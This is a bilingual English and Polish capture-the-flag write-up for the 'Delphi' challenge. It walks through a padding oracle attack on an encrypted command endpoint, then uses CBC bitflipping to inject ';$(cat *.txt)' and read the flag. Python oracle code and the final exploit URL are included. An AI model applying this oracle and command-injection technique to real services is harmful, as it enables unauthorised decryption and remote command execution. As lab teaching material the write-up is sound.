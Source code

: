 # Delphi (web/crypto)

###ENG
[PL](#pl-version)

The task was in `web` category, but actually there was almost no `web` there, only `crypto`.
We get a web interface in which we can invoke three commands from a select box.

The commands are `netstat`, `ps aux`, and `echo "This is a longer string that I want to use to test multiple-block patterns`.

We notice that all those commands actually point to the same endpoint `execute`, with different parameters, eg `/execute/5d60992b1d3ac1d561f6cb4149d540ed4f6d549c64b9d39babc58c0f29324312`
So we deduce that the command itself probably is somehow encrypted in the hex-string.
Since commands have different lengths we can assume that it is most likely block encryption.
By calculating `gcd` over payload lengths we have we can see that block size can be at most 16 bytes.

If we try to modify the payload we quickly hit `decrypt failure` message.
This seems like a nice setup for oracle padding attack, so we import our oracle padding breaker from crypto-commons are try to run it on the payloads.
If you're interested in how padding oracle works see our other writeup which describes this more in detail: https://github.com/p4-team/ctf/tree/master/2016-09-16-csaw/neo
We need to prepare oracle function, which will tell us if the decryption failed (presumably because of incorrect padding after decrypt):

```python
session = requests.Session()

def send(ct):
    while True:
        try:
            url = "http://delphi-status-e606c556.ctf.bsidessf.net/execute/" + ct
            result = session.get(url)
            content = result.content
            return content
        except:
            time.sleep(1)


def oracle(data):
    result = send(data)
    if "decrypt" in result:
        return False
    else:
        return True
```

So we simply send the payload and check if there is `decrypt failed` message in the response.

With this in place we can now run:

```python
from crypto_commons.symmetrical.symmetrical import oracle_padding_recovery

def main():
    ct = '21573ed27b7d10267caebd178a68434c66bb31eabdd648cd38f6a34d53656b00'  # ps aux?
    oracle_padding_recovery(ct, oracle, 16, string.printable)


main()
```

And we manage to recover what we expected -> `ps aux` with PKCS padding.
The same goes for `nestat` command, but the most interesting is the last payload because it has more than a single block we can recover.
The last command ends up to be:

`echo "This is a longer string that I want to use to test multiple-block patterns\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f`

Now that we know that we're dealing with CBC encryption, we can use bitflipping to force the payload to decrypt into plaintext of our choosing, at least up to a single block boundary.

The idea behind this attack comes directly from how CBC mode works.
In CBC encryption the plaintext is XORed with previous ciphertext block before encryption.
During decryption the block is first decrypted and then XORed with previous ciphertext block to recover the real plaintext.
This means, however, that if we modify a single byte of ciphertext of previous block, we will change corresponding byte of the decrypted plaintext in the next block!
Keep in mind this will also mess up the decryption of the changed ciphertext block, but this can't be helped.

What we need is to know the ciphertext and corresponding plaintext.
Then we know that `pt[i] = decrypt(ct[k][i]) ^ ct[k-1][i]` and we know all those values.
So now if we XOR `ct[k-1][i]` with `pt[i]` we should always get 0 as result, since `a xor a = 0`.
And now if we XOR this with any value, we will get this value as decryption result!

Fortunately we also have this in crypto-commons so we proceed with:

```python
    ct = '2ca638d01882452ec38895c06cd42505e2b5f680cccd0e4ee9c05acf697bc8fa0f33c4e66d69f81e1869606244dbc1f8f2cce8a05447037fb83addb8a9e6da032c1d08a5598422aab67283a1fcf6ca6297970b2a226124505751ed5d425fd8717d2da1ff5cd6a806c85fdb3ad3cbb175'  # echo something
    pt = (
         '?' * 16) + 'echo "This is a longer string that I want to use to test multiple-block patterns\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f'
    ct = set_cbc_payload_for_block(ct.decode("hex"), pt, ';$(cat *.txt)   ', 5).encode("hex")
    print(ct)
```

This way we modify the decryption results for 5th block of the ciphertext.
4th block will be broken, but since it's just passed to `echo` we don't really care about it much.
So we just modified the ciphertext to decode into `echo ... garbage;$(cat *.txt)   ` which invoked in the shell will give us the flag.
And if we now go to the `http://delphi-status-e606c556.ctf.bsidessf.net/execute/2ca638d01882452ec38895c06cd42505e2b5f680cccd0e4ee9c05acf697bc8fa0f33c4e66d69f81e1869606244dbc1f8f2cce8a05447037fb83addb8a9e6da03721442aa579369a0e8678fa1b0a4843197970b2a226124505751ed5d425fd8717d2da1ff5cd6a806c85fdb3ad3cbb175` url with our modified ciphertext we get as expected:

`This is a longer string that I want to use��|��O� |��q)�;FLAG:a1cf81c5e0872a7e0a4aec2e8e9f74c3   `

###PL version

Zadanie co prawda było w kategorii `web` ale w praktyce nie było tam prawie nic z `web` a jedynie z `crypto`.
Dostajemy webowy interfejs z którego można wykonać trzy komendy używając select boxa.

Komendy to `netstat`, `ps aux` oraz `echo "This is a longer string that I want to use to test multiple-block patterns`.

Zauważamy szybko że wszytkie komendy prowadzą do tego samego endpointu `execue` z innym parametrem, np.
`/execute/5d60992b1d3ac1d561f6cb4149d540ed4f6d549c64b9d39babc58c0f29324312`
Zgadujemy, że komenda do wykonania jest zaszyfrowana w tym hex-stringu.
Skoro komendy mają różne długości to domyślamy się że mamy do czynienia z szyfrem blokowym.
Licząc `gcd` z długości znanych payloadów wynika że blok może mieć najwyżej 16 bajtów długości.

Jeśli ręcznie zmodyfikujemy payload to szybko dostajemy komunikat `decrypt failure`.
To sugeruje setup dla ataku oracle padding, więc importujemy nasz łamacz z crypto-commons i próbujemy uruchomić go dla posiadanych szyfrogramów.
Po szczegóły dotyczące ataku padding oracle odsyłamy do innego writeupa który napisalismy kilka tygodni temu: https://github.com/p4-team/ctf/tree/master/2016-09-16-csaw/neo#pl-version
Potrzebujemy do tego przygotować samą wyrocznie, która powie nam czy deszyfrowanie się powiodło czy nie (zakładamy że niepowodzenie wynika z niepopranego paddingu po deszyfrowaniu):

```python
session = requests.Session()

def send(ct):
    while True:
        try:
            url = "http://delphi-status-e606c556.ctf.bsidessf.net/execute/" + ct
            result = session.get(url)
            content = result.content
            return content
        except:
            time.sleep(1)


def oracle(data):
    result = send(data)
    if "decrypt" in result:
        return False
    else:
        return True
```

Więc po prostu wysyłamy przygotowane dane i sprawdzamy czy w odpowiedzie dostaliśmy wiadomość `decrypt failed`.

Możemy teraz uruchomić:

```python
from crypto_commons.symmetrical.symmetrical import oracle_padding_recovery

def main():
    ct = '21573ed27b7d10267caebd178a68434c66bb31eabdd648cd38f6a34d53656b00'  # ps aux?
    oracle_padding_recovery(ct, oracle, 16, string.printable)


main()
```

I udaje nam się odzyskać oczekiwaną komendę -> `ps aux` z paddingiem PKCS.
Tak samo jest dla payloadu z `netstat` ale najciekawszy jest ostatni szyfrogram, bo pozwala odzyskać więcej niż 1 blok.
Ostatnia komenda to:

`echo "This is a longer string that I want to use to test multiple-block patterns\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f`

Skoro wiemy już że mamy do czynienia z szyfrowaniem w trybie CBC, możemy wykorzystać bitflipping żeby zmodyfikować payload tak, aby deszyfrował się do wybranego przez nas plaintextu, przynajmniej do granicy jednego bloku.

Idea stojąca za tym atakiem wynika bezpośrednio z działania trybu CBC.
W tym trybie plaintext jest XORowwany z ciphertextem w poprzednim bloku przed szyfrowaniem.
Podczas deszyfrowania, po odkodowaniu bloku wynik jest XORowany z ciphertextem poprzedniego bloku w celu odzyskania prawdziwego plaintextu.
To oznacza jednak, że możemy zmodyfikować jeden bajt ciphertextu w poprzednim bloku i tym samym zmienić odpowiadający mu bajt odszyfrowanego plaintextu w kolejnym bloku!
Warto pamiętać, że zniszczymy w ten sposób odszyfrowaną wartość bloku gdzie zmieniamy ciphertext, ale tego nie da się ominąć.

Potrzebujemy znać ciphertext oraz odpowiadający mu plaintext.
Wiemy że `pt[i] = decrypt(ct[k][i]) ^ ct[k-1][i]` i znamy też wszystkie te wartości.
Teraz jeśli XORujemy `ct[k-1][i]` z `pt[i]` powinniśmy zawsze po odszyfrowaniu dostać 0 ponieważ `a xor a = 0`.
A teraz jeśli XORujemy to z dowolną inną wartością to uzyskamy tą wartość w wyniku deszyfrowania!

Szczęśliwie mamy to już zaimplementowane w crypto-commons więc wykonujemy:

```python
    ct = '2ca638d01882452ec38895c06cd42505e2b5f680cccd0e4ee9c05acf697bc8fa0f33c4e66d69f81e1869606244dbc1f8f2cce8a05447037fb83addb8a9e6da032c1d08a5598422aab67283a1fcf6ca6297970b2a226124505751ed5d425fd8717d2da1ff5cd6a806c85fdb3ad3cbb175'  # echo something
    pt = (
         '?' * 16) + 'echo "This is a longer string that I want to use to test multiple-block patterns\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f'
    ct = set_cbc_payload_for_block(ct.decode("hex"), pt, ';$(cat *.txt)   ', 5).encode("hex")
    print(ct)
```

W ten sposób zmieniamy wynik deszyfrowania 5 bloku.
4 blok będzie popsuty, ale jest to input dla `echo` więc nie przejmuejmy się tym specjalnie.
Teraz nasz zmieniony ciphertext powinien zdeszyfrować się do czegoś w postaci `echo ... garbage;$(cat *.txt)   ` co wykonane w shellu da nam flagę.
I faktycznie wchodząc pod URL `http://delphi-status-e606c556.ctf.bsidessf.net/execute/2ca638d01882452ec38895c06cd42505e2b5f680cccd0e4ee9c05acf697bc8fa0f33c4e66d69f81e1869606244dbc1f8f2cce8a05447037fb83addb8a9e6da03721442aa579369a0e8678fa1b0a4843197970b2a226124505751ed5d425fd8717d2da1ff5cd6a806c85fdb3ad3cbb175` url ze zmienionym ciphertextem dostajemy:

`This is a longer string that I want to use��|��O� |��q)�;FLAG:a1cf81c5e0872a7e0a4aec2e8e9f74c3   `
